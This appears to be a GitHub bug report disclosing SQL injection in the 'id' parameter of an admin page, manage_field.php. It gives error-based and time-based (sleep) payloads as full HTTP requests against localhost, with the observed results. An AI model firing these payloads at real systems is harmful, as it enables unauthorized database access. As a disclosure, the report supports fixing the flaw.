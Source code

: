 BUG_Author:Houguo Xi

Vulnerability File: /mcw/admin/fields/manage_field.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 1 from(select count(*),concat(0x51525354,(select (elt(111=111,1))),0x66676869,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'm'='m

```
GET /mcw/admin/fields/manage_field.php?id=1%27%20and%20(select%201%20from(select%20count(*),concat(0x51525354,(select%20(elt(111=111,1))),0x66676869,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)%20and%20%27m%27=%27m HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=jqeunca8s853cqfdr18lvheru5
Connection: close
```

Injection success based on errors

![image](https://github.com/LOBSSSA5DD5/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 2 from (select(sleep(15)))m) and 'a'='a

```
GET /mcw/admin/fields/manage_field.php?id=1%27%20and%20(select%202%20from%20(select(sleep(15)))m)%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=jqeunca8s853cqfdr18lvheru5
Connection: close
```

The response time of the server is 15 seconds

![image](https://github.com/LOBSSSA5DD5/bug_report/blob/main/sql2.png)
